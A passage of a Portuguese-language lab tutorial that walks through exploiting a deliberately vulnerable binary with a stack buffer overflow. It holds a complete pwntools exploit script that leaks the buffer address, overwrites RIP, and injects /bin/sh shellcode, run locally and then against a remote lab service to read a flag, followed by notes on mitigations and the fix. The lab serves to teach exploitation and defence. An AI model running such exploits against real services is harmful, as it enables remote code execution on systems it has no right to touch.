- O que isso significa? Que podemos redirecionar a execução para o endereço de memória que colocarmos em `RIP`.

Então, que endereço de memória poderia ser legal colocar agora em `RIP`? (Pare e
pense um pouco antes de prosseguir)

Bem, dentre algumas alternativas, uma boa poderia ser o próprio endereço do
`buffer`. Essa é uma região na stack que temos controle do conteúdo. E nesse
caso, a stack tem permissão de execução, então a CPU pode chegar até ela para
ler e executar instruções.

> [!TIP]
> Nesse nosso ambiente tem um tipo de técnica para dificultar exploração de
> vulnerabilidades chamada `ASLR` ([Address Space Layout
> Randomization](https://en.wikipedia.org/wiki/Address_space_layout_randomization)).
> Ela basicamente faz com que alguns componentes de um processo sejam carregados
> em diferentes pontos da memória a cada execução, dentre eles, a stack. Se você
> executar algumas vezes o binário, por exemplo, verá que o endereço de `buffer`
> é bem diferente a cada execução:
>
> ```
> root@mnsec-pwn-d998c673219144:~# ./binexp_bof_01
> [*] buffer is on: 0x7fff26d7bcf0
> [*] Now send data to buffer:
> ^C
> root@mnsec-pwn-d998c673219144:~# ./binexp_bof_01
> [*] buffer is on: 0x7ffc4ac6c430
> [*] Now send data to buffer:
> ^C
> root@mnsec-pwn-d998c673219144:~# ./binexp_bof_01
> [*] buffer is on: 0x7ffea4070cd0
> [*] Now send data to buffer:
> ^C
> ```
>
> Resolvemos facilitar nesse ponto já informando o endereço em que `buffer` está
> a cada execução. Então para tratar isso devemos ler o endereço de `buffer` que
> é mostrado pelo próprio programa.

Realizar a leitura do endereço que `buffer` está é relativamente simples com
`pwntools`. Vamos fazer assim: 

1. Ler até chegar em `0x`, que é o início do valor que queremos capturar. O que
foi lido até então podemos descartar.
2. Agora ler até chegar numa quebra de linha (`\n`). Essa parte lida contém o
endereço de `buffer`.
3. Remover a quebra de linha do que foi lido.
4. Converter o dado lido para inteiro.

Isso pode ser implementado no *script* da seguinte forma:

```python
data = p.recvuntil(b': 0x')
data = p.recvuntil(b'\n')
addr = int(data[:-1], 16)
```

Vamos criar uma função para facilitar a exibição desse valor:

```python
def logging(msg, value):
    return success(': '.join([msg, hex(value)]))
```

Então chamamos essa função utilizando o valor que capturamos, para confirmar:

```python
logging('buffer', addr)
```

No final, o *script* deve estar assim:

```python
#!/usr/bin/env python3

from pwn import *

def logging(msg, value):
    return success(': '.join([msg, hex(value)]))

p = gdb.debug('./binexp_bof_01', '''
    continue
''')

data = p.recvuntil(b': 0x')
data = p.recvuntil(b'\n')
addr = int(data[:-1], 16)
logging('buffer', addr)

payload = cyclic(180)
p.sendline(payload)

p.interactive()
```

Assim, quando executar o *script*, deve ser vista a mensagem informando qual o
endereço do `buffer`:

```
[+] buffer: 0x7ffdbd6f8810
```

Feito isso, basta usarmos esse valor para ser enviado ao programa no ponto que
será colocado em `RIP`. Podemos fazer isso ajustando nosso *payload* para ser
136 `A`s seguido do endereço de `buffer`:

```python
payload = b'A' * 136
payload += p64(addr)
p.sendline(payload)
```

> [!CAUTION]
> Utilizamos a função `p64()` do `pwntools` para que seja gerado um valor de 64
> bits a partir do parâmetro que enviamos para a função. Isso é relevante aqui
> para que seja enviado realmente 8 bytes, que é o endereço para ficar no topo
> da stack.

Antes de executar o *script* como está, vamos configurar nele para ter um
*breakpoint* no GDB no endereço `main+104`, que é onde tem a instrução `ret` da
função `main()`. O objetivo aqui é pararmos a execução do programa nesse ponto
para validar se está acontecendo tudo certo como planejamos até então.

A forma que fazemos isso é indicando na chamada à `gdb.debug()` do `pwntools`,
ficando dessa forma:

```python
p = gdb.debug('./binexp_bof_01', '''
    b *main+104
    continue
''')
```

O *script*, até então, está dessa maneira:

```python
#!/usr/bin/env python3

from pwn import *

def logging(msg, value):
    return success(': '.join([msg, hex(value)]))

p = gdb.debug('./binexp_bof_01', '''
    b *main+104
    continue
''')

data = p.recvuntil(b': 0x')
data = p.recvuntil(b'\n')
addr = int(data[:-1], 16)
logging('buffer', addr)

payload = b'A' * 136
payload += p64(addr)
p.sendline(payload)

p.interactive()
```

Se executarmos o *script* nesse ponto e então colocarmos para executar a
instrução `ret` (comando `ni` do GDB), podemos ver o registrador `RIP` (comando
`i r $rip`) com o valor justamente do endereço do `buffer`. Investigando o
conteúdo desse endereço podemos confirmar que se trata dos nossos vários `A`s.

```
Breakpoint 1, 0x0000000000401273 in main ()
=> 0x0000000000401273 <main+104>:       c3                      ret
(gdb) ni
0x00007ffda2ac9860 in ?? ()
=> 0x00007ffda2ac9860:  41                      rex.B
(gdb) i r $rip
rip            0x7ffda2ac9860      0x7ffda2ac9860
(gdb) x/s $rip
0x7ffda2ac9860: 'A' <repeats 136 times>, "`\230\254\242\375\177"
```

Perfeito, até então está tudo nos conformes. Conseguimos controlar o valor de
`RIP`, o que nos permite roubar o fluxo de execução do programa. Com isso
podemos colocar um endereço interessante para nós. Nesse ponto, um bom local é o
próprio endereço de `buffer`, pois controlamos seu valor e pode ser executado.

Legal, né?! O que será que podemos ter como próximos passos? :P

### Criação de shellcode

Já conseguimos redirecionar o fluxo de execução do nosso alvo para um lugar que
temos controle do conteúdo. E agora, o que fazer?

Partindo dessas premissas, é interessante colocarmos código que pode ser
executado pelo programa. A isso damos o nome de **shellcode**.

> [!WARNING]
> Poderíamos fazer o **shellcode** na mão, mas por questão de praticidade (e
> como nosso foco é a exploração da vulnerabilidade em si) vamos utilizar o
> `pwntools` para gerar um **shellcode** para nosso *script*. Mas, ainda assim,
> é recomendado que você invista um tempo estudando e entendendo como é esse
> processo manualmente.

Para gerar um *shellcode* usando o `pwntools` podemos executar o comando
`shellcraft` dessa maneira:

```
pwn shellcraft -f a sh
```

O que você vê como resultado são instruções assembly que no fim das contas
executará `execve('/bin/sh', ['sh'])`, basicamente. Para conseguir esse mesmo
efeito pelo *script*, vamos ajustar o *payload* da seguinte forma:

```python
assembly = shellcraft.sh()
shellcode = asm(assembly)
nop = asm(shellcraft.nop())

payload = shellcode
payload += nop * (136 - len(payload))
payload += p64(addr)
p.sendline(payload)
```

Dessa maneira estamos criando o código assembly responsável por executar a shell
como queremos, e então transformamos ele em opcodes de fato. Também pegamos o
opcode de uma instrução `nop` só para completarmos nosso `buffer` com isso.

Em seguida, montamos nosso *payload*:

1. *Shellcode* que queremos executar
2. Algumas instruções `nop`, só para preencher o `buffer` entre o final do
*shellcode* e o *offset* para escrita de `RIP`
3. Por fim, o endereço de `buffer`, que é o valor que vai para `RIP`

Para que isso funcione sem problemas devemos ajustar o contexto do `pwntools`
para que ele entenda que o código assembly que ele vai gerar é para arquitetura
x86_64 sendo o sistema operacional Linux:

```python
context.arch = 'amd64'
context.os = 'linux'
```

O *script* completo está assim:

```python
#!/usr/bin/env python3

from pwn import *

def logging(msg, value):
    return success(': '.join([msg, hex(value)]))

context.arch = 'amd64'
context.os = 'linux'

p = gdb.debug('./binexp_bof_01', '''
    b *main+104
    continue
    ''')

data = p.recvuntil(b': 0x')
data = p.recvuntil(b'\n')
addr = int(data[:-1], 16)
logging('buffer', addr)

assembly = shellcraft.sh()
shellcode = asm(assembly)
nop = asm(shellcraft.nop())

payload = shellcode
payload += nop * (136 - len(payload))
payload += p64(addr)
p.sendline(payload)

p.interactive()
```

Agora, ao executar o *script*, através do GDB podemos ver o shellcode que será
executado, como planejamos:

```
Breakpoint 1, 0x0000000000401273 in main ()
=> 0x0000000000401273 <main+104>:       c3                      ret
(gdb) ni
0x00007fffe5648b80 in ?? ()
=> 0x00007fffe5648b80:  6a 68                   push   $0x68
(gdb) x/20i $rip
=> 0x7fffe5648b80:      push   $0x68
   0x7fffe5648b82:      movabs $0x732f2f2f6e69622f,%rax
   0x7fffe5648b8c:      push   %rax
   0x7fffe5648b8d:      mov    %rsp,%rdi
   0x7fffe5648b90:      push   $0x1016972
   0x7fffe5648b95:      xorl   $0x1010101,(%rsp)
   0x7fffe5648b9c:      xor    %esi,%esi
   0x7fffe5648b9e:      push   %rsi
   0x7fffe5648b9f:      push   $0x8
   0x7fffe5648ba1:      pop    %rsi
   0x7fffe5648ba2:      add    %rsp,%rsi
   0x7fffe5648ba5:      push   %rsi
   0x7fffe5648ba6:      mov    %rsp,%rsi
   0x7fffe5648ba9:      xor    %edx,%edx
   0x7fffe5648bab:      push   $0x3b
   0x7fffe5648bad:      pop    %rax
   0x7fffe5648bae:      syscall
   0x7fffe5648bb0:      nop
   0x7fffe5648bb1:      nop
   0x7fffe5648bb2:      nop
(gdb)
```

Repare que são as instruções assembly que vimos quando geramos o código com `pwn
shellcraft -f a sh`. Show! Simbora! \o/

### Exploração do binário local

Com o *script* no estado que está estamos quase com a execução completa do
*exploit*, a única parte chata é que está executando através do GDB, o que é
útil para análises, mas não para realmente executar o binário em estado real.

Para resolver isso basta ajustar novamente o *script* para funcionar sem que a
execução seja pelo GDB. Lembra como fazer isso? Remova a parte do debugging via
GDB e adicione a criação de um processo a partir do binário alvo:

```python
p = process('./binexp_bof_01')
```

Com isso o *script* completo fica assim:

```python
#!/usr/bin/env python3

from pwn import *

def logging(msg, value):
    return success(': '.join([msg, hex(value)]))

context.arch = 'amd64'
context.os = 'linux'

p = process('./binexp_bof_01')

data = p.recvuntil(b': 0x')
data = p.recvuntil(b'\n')
addr = int(data[:-1], 16)
logging('buffer', addr)

assembly = shellcraft.sh()
shellcode = asm(assembly)
nop = asm(shellcraft.nop())

payload = shellcode
payload += nop * (136 - len(payload))
payload += p64(addr)
p.sendline(payload)

p.interactive()
```

Quando executamos o *script* como está, teremos acesso à shell que foi criada
pela execução do nosso *shellcode*, repare:

```
root@mnsec-pwn-d998c673219144:~# ./exploit.py 
[+] Starting local process './binexp_bof_01': pid 920
[+] buffer: 0x7fff8c33dff0
[*] Switching to interactive mode
[*] Now send data to buffer: 
$ pwd
/root
$ exit
[*] Got EOF while reading in interactive
```

Massa demais, bicho! Conseguimos explorar o programa e fazer ele executar uma
shell!!

### Exploração remota

Mas veja, exploramos o binário só em nossa própria máquina, que já temos acesso
a tudo e tals. Enquanto isso, a máquina alvo, que executa esse programa como um
serviço disponível na rede, está lá, intacta. Vamos arrumar o `exploit.sh` para
explorar a instância na máquina remota, que tal?

Como utilizamos o `pwntools` para lidar com a interação com o programa em
relação à entrada e saída de dados, apenas precisamos modificar o *script* para
o `pwntools` entender que não se trata mais de um binário local mas sim um
serviço remoto. Para fazer isso é bem simples, veja:

```python
p = remote('192.168.0.20', 1337)
```

É só isso mesmo: informar que é uma conexão remota passando como parâmetro o
endereço da máquina e a porta para conexão.

Com essa modificação, veja como fica a exploração remotamente:

```
root@mnsec-pwn-d998c673219144:~# ./exploit.py 
[+] Opening connection to 192.168.0.20 on port 1337: Done
[+] Opening connection to 192.168.0.20 on port 1337: Done
[+] buffer: 0x7ffd74efb760
[*] Switching to interactive mode
[*] Now send data to buffer: 
$ ls
[+] Opening connection to 192.168.0.20 on port 1337: Done
[+] buffer: 0x7ffd74efb760
[*] Switching to interactive mode
[*] Now send data to buffer: 
$ ls
binexp_bof_01
flag
$ cat flag
hackinsdn{binexp_flag_temp}
```

> [!IMPORTANT]
> Qual foi a flag que você obteve utilizando seu exploit?
>
> <textarea name="resposta_vuln" rows="1" cols="80" placeholder="Escreva sua resposta aqui..."></textarea>

## Mitigações

Esse é um laboratório introdutório, nosso objetivo aqui é te explicar sobre uma
vulnerabilidade clássica, chamada **buffer overflow**, e te guiar num processo
de exploração relativamente simples. Para fazer isso, desabilitamos mitigações
que são comuns existirem hoje quando compilamos um programa, por exemplo:

- RELRO
- Stack canary
- NX
- PIE

Algumas dessas mitigações atrapalhariam a exploração como fizemos, por exemplo:

- **Stack Canary**: é adicionado um token na stack antes do valor salvo do
  `RIP`. Esse valor é validado no final da execução da função, antes de chegar à
  instrução `ret`. Dessa forma, se houver uma corrupção na stack e modificar
  esse valor para chegar a modificar o valor salvo de `RIP`, a corrupção será
  detectada.
- **NX**: marca a stack como uma área de memória sem permissão de execução,
  então se o fluxo de execução for direcionada para essa área de memória o
  programa vai falhar e não prosseguirá na execução.

Veja que essas mitigações atrapalhariam a exploração **da forma que fizemos**.
Se houvessem elas implementadas em nosso programa alvo, precisaríamos encontrar
formas de contornar essas mitigações.

## Correção

Reflita um pouco e responta a pergunta a seguir antes de prosseguir para a nossa
explicação:

> [!IMPORTANT]
> Mas vem cá, como você sugeriria corrigir a vulnerabilidade?
>
> <textarea name="resposta_fix" rows="3" cols="80" placeholder="Escreva sua resposta aqui..."></textarea>

Por mais que aplicar as técnica de mitigação sejam interessantes, elas ainda
podem ser contornadas em alguns cenários. Por isso a melhor forma é mesmo
corrigir a vulnerabilidade, removendo ela do código.

Veja bem, no nosso cenário, o que houve de problema foi que o código permite
escrita de uma quantidade de bytes maior do que foi reservado para ser escrito.
A forma de resolver isso é limitando a quantidade de dados escritos no `buffer`
para o tamanho da memória que foi reservado para essa variável.

## Próximos passos

Com esse laboratório você teve apenas uma pequena introdução ao campo de
exploração de binários. Foi uma introdução bem completinha, abordando algumas
ferramentas modernas para trabalhar com esse tipo de exploração.

Caso você tenha gostado da área e queira seguir nessa linha, recomendamos você
estudar outras técnicas de exploração como ret2libc, ret2plt, ret2got, ret2main
e rop. Além disso, também é interessante ver mais alguns tipos de
vulnerabilidades como format strings, problemas com conversão de inteiros e mal
uso da heap. Passado isso ainda existem as mitigações que são implementadas hoje
e você pode se divertir aprendendo como realizar o *bypass* delas.

Bons estudos! :)
